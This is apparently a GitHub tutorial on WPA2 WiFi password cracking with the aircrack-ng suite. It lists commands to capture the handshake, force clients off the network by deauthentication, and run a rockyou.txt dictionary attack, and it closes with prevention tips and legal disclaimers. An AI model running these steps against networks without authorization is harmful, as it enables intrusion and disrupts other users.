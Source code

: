 # Brute_Force-Dictionary_Attack_on_WiFi

## WPA2

---

## 1. Introduction

This tutorial demonstrates how to perform a Dictionary Attack on a WiFi network secured with WPA2. The attack is based on capturing the handshake, which occurs when a device connects to the network, and comparing it against a known password dictionary.

> **Note:** This material is provided for educational purposes only. Testing networks without authorization is illegal.

---

## 2. Phase 1: Capturing the Handshake

To proceed, we need to capture the handshake of the target network.

### 2.1 Steps

1. Enable monitor mode on the WiFi card:
   ```bash
   airmon-ng start wlan0
   ```
2. Identify the target network:
   ```bash
   airodump-ng wlan0mon
   ```
   > **Note:** Write down the BSSID of the network and its channel (CH).

3. Create a folder to save the handshake:
   ```bash
   mkdir -p ~/Desktop/handshake
   ```

4. Capture network traffic and save the handshake:
   ```bash
   airodump-ng -c [Channel] --bssid [BSSID] -w ~/Desktop/handshake/handshake wlan0mon
   ```

5. Force a client to disconnect to capture the handshake (optional):
   ```bash
   aireplay-ng -0 10 -a [BSSID] wlan0mon
   ```
   > Once the client reconnects, the handshake will be captured and saved in:
   > `~/Desktop/handshake/handshake.cap`

---

## 3. Phase 2: Dictionary Attack

Now we can compare the captured handshake with a password dictionary.

### 3.1 Using a Default Dictionary

Kali Linux includes some predefined dictionaries. A good starting point is the `rockyou.txt` dictionary, located at:

```bash
/usr/share/wordlists/rockyou.txt.gz
```

Extract it before using:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

Start the cracking process:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] ~/Desktop/handshake/handshake.cap
```

### 3.2 Using Larger Dictionaries

If the password is not found, try using larger dictionaries available on:

- **WeakPass** – A database with massive lists of real passwords.

Download a larger dictionary and use it with the following command:

```bash
aircrack-ng -w [dictionary_path] -b [BSSID] ~/Desktop/handshake/handshake.cap
```

---

## 4. Phase 3: Restoring the WiFi Card

After completing the attack, it is important to restore the WiFi card to its original state.

1. Disable monitor mode:
   ```bash
   airmon-ng stop wlan0mon
   ```

2. Restart network services:
   ```bash
   service networking restart
   service NetworkManager restart
   ```

3. Verify that the card is back to normal mode:
   ```bash
   iwconfig
   ```
   > If the card is back to `wlan0`, the restoration was successful.

---

## 5. Phase 4: Prevention

To protect against this type of attack:

- Use long and complex passwords with numbers and special characters.
- Change the WiFi password periodically.
- Use WPA3 if available.
- Configure MAC address filtering to limit authorized devices.

---

## 6. Conclusion

We have seen how a dictionary attack can be used to discover WiFi passwords by capturing the handshake and using a password dictionary. However, the effectiveness depends on the quality and size of the dictionary.

> **Note:** This tutorial is for educational purposes only. Unauthorized use is illegal.
